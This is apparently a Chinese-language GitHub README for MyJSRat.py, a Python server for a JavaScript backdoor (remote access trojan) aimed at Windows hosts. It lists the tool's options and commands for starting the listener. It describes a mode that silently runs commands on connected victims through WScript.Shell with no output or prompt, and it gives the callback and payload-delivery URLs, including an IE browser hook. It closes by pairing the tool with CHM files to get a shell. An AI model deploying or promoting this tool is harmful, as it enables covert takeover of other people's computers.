




# MyJSRat.py
## 0x00 JSbackdoor
关于javascript backdoor 请查看：

[JavaScript Backdoor](http://drops.wooyun.org/tips/11764)

[JavaScript Phishing](http://drops.wooyun.org/tips/12386)

[JSRat.ps1](https://gist.github.com/subTee/f1603fa5c15d5f8825c0)

## 0x01 说明
研究JSbackdoor 之后想着写一个py版的，后来发现已经有小伙伴写过了，地址如下：[JSRat-Py](https://github.com/Hood3dRob1n/JSRat-Py)

测试使用的时候，为了更加方便，对上面的这个脚本进行了修改，添加了`-c` 参数可以实现在客户端连接之后自动执行命令。具体使用方式如下：
```
JSRat Server
By: Evi1cg

Usage: MyJSRat.py [options]

Options:
  --version             show program's version number and exit
  -h, --help            show this help message and exit
  -i IP, --ip=IP        IP to Bind Server to (i.e. 192.168.0.69)
  -p PORT, --port=PORT  Port to Run Server on
  -u URL, --url=URL     URL to Initiate Client Connection (default: /connect)
  -f, --find-ip         Display Current Internal and External IP Addresses
  -c CMD, --command=CMD
                        auto Send command to client (No interaction)
  -v                    Enable Verbose Output
```

-f 参数可获取内外网ip地址：



脚本修改分为两个模式，交互模式以及执行命令模式。

*交互模式命令如下*：

```
 python MyJSRat.py -i 192.168.1.101 -p 8080
```
>-u 为可选参数，为回连url地址。

交互模式下可进行文件上传、下载、删除、命令执行等。

*执行命令模式命令如下*：

```
python MyJSRat.py -i 192.168.1.101 -p 8080 -c "whoami"
```
>执行命令模式下，会在获得shell之后自动执行指定命令，使用了`new ActiveXObject("WScript.Shell").Run(command,0,true)`,执行无回显，无弹框。

交互界面如下：



命令发送：



## 0x02 URL 说明
* http://192.168.1.101:8080/connect 默认回连地址
* http://192.168.1.101:8080/wtf 访问此链接获取客户端执行代码
* http://192.168.1.101:8080/hook 浏览器hook链接，适用于某些版本的IE

## 0x02 实际利用

CHM + JSRAT = Getshell



Detail : [chm_backdoor](http://evi1cg.me/archives/chm_backdoor.html)


